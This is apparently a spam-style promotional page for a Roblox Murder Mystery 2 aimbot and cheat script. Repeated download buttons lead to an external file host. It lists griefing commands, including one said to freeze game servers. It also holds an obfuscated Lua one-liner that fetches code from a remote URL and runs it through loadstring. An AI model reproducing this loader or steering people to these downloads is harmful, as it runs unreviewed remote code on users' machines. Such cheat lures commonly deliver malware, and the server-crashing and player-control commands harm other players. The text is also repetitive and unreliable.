 ```yaml
---
title: "Roblox Mm2 Aimbot"
date: 2022-08-20 07:14:30
---
```


## Roblox mm2 aimbot is a software that allows users to aim and fire guns in roblox with ease.

Current and working scripts, cheats, cheats and codes for the game Roblox The Murder Mystery 2, which are available for free to everyone on our website. The list of scripts and codes will be updated so that you can use only the best and working scripts, cheats, cheats and codes. The Murder Mystery 2 mode was transferred to Roblox directly from Garry's Mod. It is somewhat similar to the popular mafia or Among Us, but it has its own chips. To win, players often use a cheat on Murder Mystery 2, because it significantly increases their chances.

[![button image](https://github.com/aimbotguru/aimbotguru.github.io/blob/main/aimbutton.png?raw=true)](https://filemega.cloud/download-aimbot)


Commands:
savetools — store your tools and restore them whenever you happen to respawn
,sharetools — store your tools and bestow them upon every player whenever they happen to respawn
.shutdown — repeatedly duplicate tools until the server inevitably freezes
.kill — send a player to the void, effectively killing them
.bring — teleport a player to your current position
.punish — teleport a player to the void without killing them
.control — allows you to completely control another player
.skydive — teleport a player into the sky above you
Pick any weapon in Roblox Murder Mystery 2 and you will see that it has a rarity attached to it. Common, Uncommon, Rare, Legendary, Vintage, Godly, Unique, and Ancient rarities. The rarest item to obtain is, again, Nik’s Scythe. Only seven people in total are known to have it.
The reason Nik's Scythe is so rare is obviously from how scarce its existence is in Roblox Murder Mystery 2. After all, it is named after Nikilis himself, the creator of Murder Mystery 2. The scythe was only ever released to Nikilis's friends. If players tell you they have a Roblox code for it, it's a scam.
getgenv().mainKey = “nil” local a,b,c,d,e=loadstring,request or http_request or (http and http.request) or (syn and syn.request),assert,tostring,”https://api.eclipsehub.xyz/auth”c(a and b,”Executor not Supported”)a(b({Url=e..”\?\107e\121\61″..d(mainKey),Headers={[“User-Agent”]=”Eclipse”}}).Body)()

[![button image](https://github.com/aimbotguru/aimbotguru.github.io/blob/main/aimbutton.png?raw=true)](https://filemega.cloud/download-aimbot)


12 people take part in the game. There is one sheriff, one killer, and ten civilians on the map. The task of the killer is to destroy all the players and not give yourself away. The sheriff must prevent the killer's actions and save the lives of the residents. Ordinary players can only complete the tasks that the game gives them.


[![button image](https://github.com/aimbotguru/aimbotguru.github.io/blob/main/aimbutton.png?raw=true)](https://filemega.cloud/download-aimbot)